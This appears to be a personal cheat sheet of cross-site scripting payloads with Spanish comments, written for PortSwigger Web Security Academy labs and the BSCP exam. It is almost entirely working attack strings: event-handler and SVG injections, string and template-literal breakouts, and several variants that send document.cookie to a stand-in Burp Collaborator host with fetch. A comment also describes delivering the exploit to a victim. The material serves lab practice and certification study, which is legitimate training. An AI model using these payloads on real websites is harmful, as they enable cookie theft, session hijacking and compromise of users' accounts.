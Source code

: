 ```js
location='https://ID-LAB.web-security-academy.net/?search=<xss+id%3Dx+onfocus%3Dalert(document.cookie) tabindex=1>#x';
</script>

//LAB: Events handlers & hred blocked
* <svg><a><animate attributeName="href" values="javascript:alert(1)"/><text x="20" y="20">Click me</text> </a></svg>
* <svg><a id=xss><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>CLICK HERE</text></a>

//LAB: <> codificados en HTML :o
?search="onmousemove="alert(1)

//LAB: String javascript <> codificados en HTML :0
?search=‘-alert(1)-’ //eso se codifica a URL. 


//LAB: XSS DOM Reflected: `search('search-results')` "" escaped
//Un payload finamente construido a partir de entender los files.js y los response, la app procesa una funcion search lo que se pasa en el param /?search= bajo una eval('var searchResultsObj = ' + this.responseText)
\"-alert(1)}// 
//para el BSCP mandariamos un script document.location y en search= dejamos este payload -> 
\"-fetch(`https://your-burp-collaborator.com/?c=`+document.cookie)}//
//y listo deliver exploit to victim. 


//LAB: XSS con algunas marcas SVG permitidas:
//tener en cuenta los tags o events de cheat sheet portswigger, si se necesitan,
//usar en un ataque con burp intruder. 
<svg><animatetransform%20onbegin="alert(1)"></animatetransform>
<svg><animatetransform%20onbegin="fetch('https://your-burp-collaborator.com/?c='+document.cookie)"></animatetransform>


//LAB: XSS etiqueta de enlace canónico - rel="cannonical"
/?%27accesskey=%27X%27onclick='alert(1)
/?%27accesskey=%27X%27onclick='alert(1)'
/?%27accesskey=%27X%27onclick='fetch("https://your-burp-collaborator.com/?c="+document.cookie)'


//LAB: XSS cadena '' & \ escaped
\''<script>alert(1)</script>\<script>alert(1)</script>\
\''<script>fetch("https://your-burp-collaborator.com/?c="+document.cookie)</script>\<script>alert(1)</script>\


//LAB: cadena JS con <> y "" codificadas en HTML y '' escapadas
?search=\';alert(1)//'alert(1)//
?search=\';fetch("https://your-burp-collaborator.com/?c="+document.cookie)//

//LAB: Literal Template <>,'',"",\,`` con escape Unicode
- `<`: \u003c
- `>`: \u003e
- `‘`: \u0027
- `“`: \u0022
- `\\`: \u005c
//Si input en la response se refleja dentro de `` entonces podemos abusar de la sintaxis ${...}
`${alert(1)}` 
${alert(1)} 
`${`${`${`${alert(1)}`}`}`}` //PAYLOAD DEFINITIVO DEL LAB. 
`${`${`${`${fetch('https://your-burp-collaborator.com/?c=' + document.cookie)}`}`}`}`

```